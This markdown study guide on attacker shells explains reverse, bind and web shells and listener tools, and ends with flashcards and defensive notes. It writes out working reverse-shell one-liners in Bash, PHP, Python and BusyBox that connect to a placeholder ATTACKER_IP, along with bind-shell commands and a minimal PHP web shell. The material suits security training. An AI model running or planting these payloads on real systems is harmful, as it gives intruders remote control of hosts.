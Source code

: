 ## Shells 

### What is a shell?

* A *shell* is the interface (usually CLI) that allows a user or process to interact with an OS.
* In security, a **shell** usually means an interactive session attackers use on a compromised host to run commands, escalate privileges, exfiltrate data, persist, and pivot.

---

### High-level attack lifecycle enabled by shell access

* **Remote control** - run commands and tools.
* **Privilege escalation** - attempt to gain root/ADMIN.
* **Data exfiltration** - locate and copy sensitive files.
* **Persistence** - backdoors, accounts, scheduled jobs.
* **Post-exploitation** - deploy malware, clean logs.
* **Pivoting** - use the host as a jump point to other network targets.

---

### Types of shells (quick)

* **Reverse shell** - target connects back to attacker (good for bypassing outbound firewall rules).
* **Bind shell** - target listens on a port; attacker connects in (requires open inbound port on target).
* **Web shell** - script uploaded to a web server that executes commands via HTTP.

---

### Reverse shell (essence + example)

* **How it works:** compromised host initiates a connection to a listener on attacker machine.
* **Why use:** evades firewall restrictions on inbound connections.

**Typical listener (Netcat):**

```bash
nc -lvnp 443
# -l listen, -v verbose, -n no DNS, -p port
```

**Pipe-style example payload (Bash):**

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

* Uses a named pipe (FIFO) to enable bidirectional I/O.

**Common ports used to blend with normal traffic:** 53, 80, 443, 8080, 139, 445

---

### Bind shell (essence + example)

* **How it works:** target binds a port and waits for attacker to connect.
* **When used:** when outbound connections are blocked but attacker can reach an open port on target.
* **Downside:** persistent listener may be detected.

**Bind example on target:**

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

**Attacker connects:**

```bash
nc -nv TARGET_IP 8080
```

* Ports < 1024 require elevated privileges on the host.

---

### Shell listeners (tools to interact with incoming shells)

* **Netcat (nc):** simple, ubiquitous listener.
* **rlwrap:** adds readline (arrow keys, history) to programs that lack it. Example: `rlwrap nc -lvnp 443`.
* **ncat (Nmap):** Netcat variant with extra features (SSL, etc.). Example: `ncat --ssl -lvnp 4444`.
* **socat:** flexible socket relay tool - create complex socket connections. Example: `socat -d -d TCP-LISTEN:443 STDOUT`.

---

### Common shell payload families (select examples)

### Bash

```bash
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
# or
bash -i 5<>/dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

### PHP (web environments)

```php
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
```

* PHP variants: `exec`, `shell_exec`, `system`, `passthru`, `popen`.

### Python

```bash
python -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

* `subprocess` and `os` modules commonly used in crafted payloads.

### Other quick options

* **BusyBox:** `busybox nc ATTACKER_IP 443 -e sh`
* **Telnet/awk** and other language-based one-liners exist for constrained environments.

---

### Web shells (concise)

* A web shell is a script that accepts commands via HTTP and runs them on the server (languages: PHP, ASP, JSP, CGI).
* Typical upload vectors: **Unrestricted File Upload**, Local File Inclusion, Command Injection, compromised credentials.

**Minimal PHP web shell:**

```php
<?php
if(isset($_GET['cmd'])){ system($_GET['cmd']); }
?>
```

* Access: `http://victim/uploads/shell.php?cmd=whoami`

**Famous/more-featured examples:** p0wny-shell (minimal), b374k, c99 (feature-rich).

---

### Quick Q&A (flashcards)

* **Q:** What CLI lets users interact with an OS? - **A:** Shell
* **Q:** Attacker uses compromised system to reach others - **A:** Pivoting
* **Q:** Common post-access activity to increase rights - **A:** Privilege Escalation
* **Q:** Shell where the target connects back? - **A:** Reverse Shell
* **Q:** Tool to set up reverse listener? - **A:** Netcat (nc)
* **Q:** Shell that opens a port on target? - **A:** Bind Shell
* **Q:** Listening below which port requires root? - **A:** 1024
* **Q:** Tool that provides readline editing for listeners? - **A:** rlwrap
* **Q:** Nmap-distributed Netcat variant offering SSL? - **A:** ncat
* **Q:** Tool for creating socket connections between data sources? - **A:** socat
* **Q:** PHP functions used for remote shell execution? - **A:** exec, shell_exec, system, passthru, popen
* **Q:** Python module often used to spawn reverse shells / manage processes? - **A:** subprocess
* **Q:** Vulnerability that allows uploading malicious scripts? - **A:** Unrestricted File Upload
* **Q:** Malicious uploaded script for remote web server access? - **A:** Web Shell

---

### Quick reference (cheat-sheet)

* Listener: `nc -lvnp <port>`
* Better interactive: `rlwrap nc -lvnp <port>`
* Encrypted listener: `ncat --ssl -lvnp <port>`
* Socat listen: `socat -d -d TCP-LISTEN:<port> STDOUT`
* Bash reverse: `bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1`
* Bind example: `nc -l 0.0.0.0 8080 -e /bin/bash` (if nc supports `-e`)

---

### Safety & defensive notes (ops-focused)

* Monitor unusual outbound connections (to uncommon IPs/ports), especially from servers.
* Watch for long-lived listeners or processes spawning `nc`, `ncat`, `socat`, `python`, `bash` with network sockets.
* Restrict file uploads, enforce validation and content scanning.
* Harden web servers: remove unsafe functions, run as least-privileged user, use WAF, apply strict upload rules.
* Use endpoint detection to flag interactive shells and post-exploitation behaviors.

